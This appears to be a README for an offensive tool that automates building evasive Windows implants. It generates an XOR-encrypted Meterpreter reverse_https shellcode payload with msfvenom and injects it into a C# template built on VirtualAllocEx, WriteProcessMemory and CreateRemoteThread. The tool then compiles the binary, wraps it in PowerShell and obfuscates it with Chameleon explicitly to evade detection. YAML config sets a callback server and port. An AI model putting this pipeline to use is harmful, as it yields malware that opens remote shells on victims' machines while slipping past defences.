

# Binary Chef

As of 2/1/2023, you can build executables, convert it to powershell, and obfuscate the *.ps1 automatically in Ansible!

This tool will help you with compiling executable binaries automatically. Using the Jinja Template, C# file, it accomplish automated insertion of shellcode block. Also it supports automated obfuscation in Chameleon

the execution steps are as in the following.

1. Uses msfencoder (msfvenom) to automatically create and encrypt the payload.
2. Based on Jinja template file of C#, it places the payload in the desired location in the C# source code.
3. Automatically compile C# files on Windows.
4. Encode the executables in base64 format, Import it to powershell module. 
5. Obfuscate Powershell script with chameleon, to evade detection.


*You'll need to have a simple infrastructure as in the image below.*




# Requirement


### Windows(Remote)

Run `Setup/ConfigureWinrmHTTPS.ps1` on your `windows` machine first to configure WinRM Service to enable HTTPS.
Ansible will need to connect via HTTPS.

> Please note that you need to have Visual Studio and .NET package installed on the windows machine.
> I have only have tested Visual Studio are "Visual Studio 2022 Community Version".


### Linux(Remote)

Just use Kali Linux.


### LocalMachine(Linux/MacOS)

You must configure the following 3.

- Connection Option
- Compiling Option
- Source Code Option

### Connection option

Configure the allocated IP for each Kali and Windows VM such as in the following format.

```yaml
[kali]
169.254.217.2

[kali:vars]
ansible_host=169.254.217.2
ansible_port=22
ansible_ssh_user=XXXXX
ansible_python_interpreter=python3
# Optional for SSH
# ansible_ssh_private_key_file=~/.ssh/kali.private

[windows]
169.254.217.3

[windows:vars]
ansible_host=169.254.217.3
ansible_user=XXXXX
ansible_password=XXXXX
ansible_connection=winrm
ansible_port=5986
ansible_winrm_server_cert_validation=ignore
ansible_winrm_scheme=https
#ansible_python_interpreter=c:\Python\python
ansible_python_interpreter=python3 
# Option for SSH
ansible_ssh_private_key_file=~/.ssh/win11.private
```

### Compiling option

you need `pip3 install pywinrm` to access windows with Ansible remotely.

Once you are able to connect to VMs, you need to specify the variables in `groups_vars/all.yaml`.

variable you need to change are `msfencoder` arguments and `compiler`.

```yaml
# Linux
## MsfEncode arguments
## msfencoder 169.254.217.2 443 cs xor 0xfa windows/meterpreter/reverse_https
server: 169.254.217.2
ports: 443
format: 'cs'
encrypt_method: 'xor'
encrypt_key: '0xfa'
payload: 'windows/meterpreter/reverse_https'

# Local Machine
## j2 Templates
src: ../../../codemaker/src/*.j2
## To store executables
out: ../../../codemaker/out


# Windows 
## Temp Folder
tempdir: C:/Temp/
## CSC.exe compiler
compiler: C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\Roslyn\csc.exe
```

### Source Code Option

the souce code C# will be put under `codemaker/src/`. please make sure you have the extension appended `.j2` (Jinja template), otherwise Ansible won't be able to render and modify files.

Once you have the template files, insert `{{ payloadContent }}` to specify the insertion point of shellcode that will be inserted by `msfencoder`.

```csharp
using System;

        public static void Main(string[] args)
        {
            {{ payloadContent }}
        
            // write the code you want...
            VirtualAllocEx();
            WriteProcessMemory();
            CreateRemoteThread();
        }
```

### Running ansible

This will ask you password for Kali VM, to execute as SUDO.

```bash
ansible-playbook build-binary.yaml --ask-become-pass
ansible-playbook encode-command.yaml
```
